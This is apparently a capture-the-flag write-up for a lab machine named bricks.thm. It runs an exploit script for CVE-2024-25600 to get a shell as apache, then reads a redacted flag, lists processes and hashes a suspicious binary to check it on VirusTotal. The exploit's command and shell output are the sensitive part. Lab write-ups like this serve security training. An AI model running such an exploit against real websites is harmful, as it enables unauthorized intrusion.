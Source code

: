 
## Exploitation
After executing the `exploit` on the target,
````shell
python3 CVE-2024-25600.py -u https://bricks.thm
[*] Nonce found: 4d137fb7b6
[+] https://bricks.thm is vulnerable to CVE-2024-25600. Command output: apache
[!] Shell is ready, please type your commands UwU
# whoami
==> apache
````
i **successfully** obtained a `shell`.

---
### Flags
Now that i have an interactive `shell`, it's time to dig deeper and uncover all available **flags** on the system.
1. What is the **content** of the `hidden.txt` file in the web folder?
````shell
# cat 650c844110baced87e1606453b93f22a.txt
==> THM{REDACTED}
````
- Now that I have obtained the first `flag`, it's time to proceed to the **second** question.

2. What is the name of the **suspicious** process?
````shell
# ps aux
USER  PID %CPU %MEM    VSZ   RSS TTY STAT START   TIME COMMAND
root  2626  0.0  0.0   2820   652 ?  Ss   06:53   0:00 /lib/NetworkManager/nm-inet-dialog
root  2627  0.0  0.7  34808 28180 ?  S    06:53   0:00 /lib/NetworkManager/nm-inet-dialog
````
- To verify whether `nm-inet-dialog` is malicious, I calculated its `SHA256` hash. 
````shell
# sha256sum /lib/NetworkManager/nm-inet-dialog
2d96bf6e392bbd29c2d13f6393410e4599a40e1f2fe9dc8a7b744d11f05eb756
````
- and checked it against [VirusTotal](https://www.virustotal.com/gui/file/2d96bf6e392bbd29c2d13f6393410e4599a40e1f2fe9dc8a7b744d11f05eb756/detection).